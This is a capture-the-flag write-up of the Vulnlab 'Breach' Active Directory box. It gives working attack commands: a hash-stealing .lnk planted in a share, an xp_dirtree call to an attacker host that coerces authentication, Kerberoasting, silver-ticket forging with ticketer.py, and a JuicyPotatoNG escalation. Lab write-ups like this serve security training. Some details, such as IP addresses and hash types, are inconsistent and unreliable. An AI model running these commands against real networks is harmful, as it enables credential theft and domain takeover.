# Breach -- Vulnlab (write-up)

**Difficulty:** Medium
**Box:** Breach (Vulnlab)
**Author:** dkrxhn
**Date:** 2025-05-20

---

## TL;DR

### SMB share enumeration revealed usernames. Hashgrab via .lnk file led to initial creds, then silver ticket forged for MSSQL service gave admin path. Privesc via SeImpersonate with JuicyPotatoNG.

---

## Target info

- Host: `10.10.10.111`
- Domain: `breach.vl`
- Services discovered: `53/tcp`, `80/tcp`, `88/tcp`, `135/tcp`, `139/tcp`, `389/tcp`, `445/tcp`, `464/tcp`, `593/tcp`, `636/tcp`, `3268/tcp`, `3269/tcp`, `5985/tcp`, `9389/tcp`

---

## Enumeration









SMB share `transfer` was accessible but directories were locked. Found users:

- `claire.pope`
- `diana.pope`
- `julia.wong`



---

## Foothold

Used `hashgrab.py` to create a malicious `.lnk` file and placed it in the `transfer` share.





Cracked credentials: `julia.wong:Computer1`

Used `xp_dirtree` to coerce MSSQL authentication:

```
EXEC xp_dirtree '\\10.8.2.206\test', 1, 1
```





Cracked: `svc_mssql:Trustno1`

---

## Lateral movement

Ran `enum4linux` -- `svc_mssql` was in Remote Desktop Users.



Attempted to add `svc_mssql` to Remote Management Users via `ldeep`:

```bash
ldeep ldap -u julia.wong -p 'Computer1' -d breach.vl -s ldap://breach.vl add_to_group "CN=SVC_MSSQL,CN=USERS,DC=BREACH,DC=VL" "CN=REMOTE MANAGEMENT USERS,CN=BUILTIN,DC=BREACH,DC=VL"
```

**No combination worked.**

---

## Silver Ticket

Had low-level creds, so checked for SID and ServicePrincipalName to forge a silver ticket.

```bash
GetUserSPNs.py breach.vl/julia.wong:Computer1 -dc-ip 10.10.10.111 -request
```

Returns NTLMv2 hash and SPN like `MSSQLSVC/BREACH.VL:1433`.

```bash
lookupsid.py breach.vl/julia.wong:computer1@10.10.10.10
```

Got Domain SID. Generated NT hash from password `Trustno1` using an NTLM hash generator: `69596C7AA1E8DAEE17F8E78870E25A5C`

```bash
ticketer.py -nthash 69596C7AA1E8DAEE17F8E78870E25A5C -domain-sid S-1-5-21-2330692793-3312915120-706255856 -domain breach.vl spn 'MSSQLSVC/BREACH.VL:1433@BREACH.VL' -user-id 500 Administrator
```

Made sure `/etc/hosts` reflected IP for domain `BREACH.VL`.

---

## Privilege escalation

Had `SeImpersonate` privilege. Used **JuicyPotatoNG** to escalate to SYSTEM.



---

## Lessons & takeaways

- When you have low-level creds and an SPN, consider forging a silver ticket
- Always check `whoami /priv` for SeImpersonate -- JuicyPotatoNG is a reliable escalation path
- Hashgrab `.lnk` files in writable shares are a solid initial access vector
---
